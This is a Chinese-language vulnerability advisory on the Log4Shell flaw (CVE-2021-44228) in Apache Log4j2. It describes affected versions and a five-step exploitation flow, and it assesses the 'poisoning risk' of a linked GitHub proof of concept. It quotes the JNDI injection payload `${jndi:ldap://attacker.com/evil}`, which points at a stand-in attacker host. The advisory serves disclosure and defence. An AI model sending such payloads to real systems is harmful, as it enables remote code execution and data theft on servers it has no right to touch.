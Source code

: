 ## CVE-2021-44228 - Apache Log4j2 Log4Shell 远程代码执行漏洞

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行、数据泄露和服务器完全控制

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用了受影响版本的 Log4j2 并且允许 JNDI 查找，攻击者能够控制 Log4j2 记录的日志消息或日志消息参数。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j2 中的一个严重漏洞，攻击者可以通过注入恶意的 JNDI 查找字符串到日志消息中，利用此漏洞执行任意代码。漏洞原理是 Log4j2 允许在日志消息中使用 JNDI 查找功能，如果启用了消息查找功能，攻击者可以控制日志消息或日志消息参数，从而导致从 LDAP 服务器加载并执行任意代码。

**漏洞利用方式：**

1.  **攻击者构造恶意请求：** 攻击者发送包含特定格式的字符串的请求，例如 `${jndi:ldap://attacker.com/evil}`，这个字符串会被记录到 Log4j2 的日志中。
2.  **Log4j2 解析 JNDI 字符串：** 当 Log4j2 尝试记录包含 `${jndi:ldap://attacker.com/evil}` 的消息时，它会尝试解析 JNDI 字符串。
3.  **JNDI 查找：** Log4j2 通过 JNDI 接口连接到攻击者控制的 LDAP 服务器 `attacker.com`。
4.  **加载恶意代码：** LDAP 服务器返回一个包含恶意 Java 类的引用。
5.  **执行任意代码：** Log4j2 加载并执行该恶意 Java 类，从而导致远程代码执行。

**有效性：**
根据漏洞描述和搜索引擎结果，该漏洞的POC代码有效，可以实现远程代码执行。

**投毒风险：**
该漏洞利用代码存在一定的投毒风险。提供的`README.md`文件描述了利用过程，但其中包含的payload (Socket appender) 有可能被用于数据窃取。尽管主要目的是演示RCE，但通过`SerializedLayout`将日志事件发送到攻击者服务器，实际上意味着任何被记录的数据（包括潜在的敏感信息）都可能被泄露。因此，存在一定风险。

**风险评估依据：**
提供的POC专注于建立Socket连接并将序列化的数据发送到远程服务器，这意味着它可以用来构建一个后门，泄露信息或者植入更深层次的恶意代码。

**综上所述，虽然POC的目的是演示Log4Shell漏洞，但其中利用Socket appender 和 SerializedLayout的行为,存在潜在的投毒行为，因此投毒风险不容忽视。**

**项目地址:** [tadash10/Exploiting-CVE-2021-44228-Log4Shell-in-a-Banking-Environment](https://github.com/tadash10/Exploiting-CVE-2021-44228-Log4Shell-in-a-Banking-Environment)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)